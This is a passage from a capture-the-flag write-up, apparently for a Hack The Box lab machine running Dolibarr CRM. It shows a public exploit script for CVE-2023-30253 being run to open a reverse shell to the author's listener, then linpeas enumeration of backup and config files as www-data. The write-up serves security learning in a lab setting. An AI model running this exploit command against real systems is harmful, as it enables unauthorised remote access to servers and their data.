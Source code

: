 That’s when I started digging, and I stumbled upon a juicy CVE: CVE-2023-30253. I’d actually exploited this one differently first time I tackled this box, but this time, there was a sweet Python script on GitHub. Time to put it to work! [Github CVE-2023-30253](https://github.com/Rubikcuv5/cve-2023-30253)

```bash
python3 CVE-2023-30253.py --url http://crm.board.htb -u admin -p admin -r  10.10.14.8 1337
```

And boom! I had a shell, but as the lowly `www-data` user

```bash
$ $ whoami
www-data
```

## Shell as www-data

I ran `linpeas` to see what I could find and it showed a interesting file

```bash
╔══════════╣ Analyzing Backup Manager Files (limit 70)
-rw-r--r-- 1 www-data www-data 5265 Mar  4  2023 /var/www/html/crm.board.htb/htdocs/admin/system/database.php
```

Contains the interesting files

```bash
$ $ cd /var/www/html/crm.board.htb/htdocs/admin/system/
$ $ ls -la
total 200
drwxr-xr-x 2 www-data www-data  4096 Mar  4  2023 .
drwxr-xr-x 6 www-data www-data  4096 Mar  4  2023 ..
-rw-r--r-- 1 www-data www-data  7738 Mar  4  2023 about.php
-rw-r--r-- 1 www-data www-data  3422 Mar  4  2023 browser.php
-rw-r--r-- 1 www-data www-data  7766 Mar  4  2023 constall.php
-rw-r--r-- 1 www-data www-data  8188 Mar  4  2023 database-tables.php
-rw-r--r-- 1 www-data www-data  5265 Mar  4  2023 database.php
-rw-r--r-- 1 www-data www-data  3753 Mar  4  2023 dbtable.php
-rw-r--r-- 1 www-data www-data 23726 Mar  4  2023 dolibarr.php
-rw-r--r-- 1 www-data www-data 19628 Mar  4  2023 filecheck.php
-rw-r--r-- 1 www-data www-data 14479 Mar  4  2023 modules.php
-rw-r--r-- 1 www-data www-data  1716 Mar  4  2023 os.php
-rw-r--r-- 1 www-data www-data 24747 Mar  4  2023 perf.php
-rw-r--r-- 1 www-data www-data 11280 Mar  4  2023 phpinfo.php
-rw-r--r-- 1 www-data www-data 31806 Mar  4  2023 security.php
-rw-r--r-- 1 www-data www-data  3236 Mar  4  2023 web.php
-rw-r--r-- 1 www-data www-data  2031 Mar  4  2023 xcache.php
-rw-r--r-- 1 www-data www-data  4639 Mar  4  2023 xdebug.php
```

There was also a `.github` directory – always a fun place to look!

```bash
╔══════════╣ Analyzing Github Files (limit 70)                                                                                           
drwxr-xr-x 4 www-data www-data 4096 Mar  4  2023 /var/www/html/crm.board.htb/.github
drwxr-xr-x 3 www-data www-data 4096 Mar  4  2023 /var/www/html/crm.board.htb/htdocs/includes/webklex/php-imap/.github
```
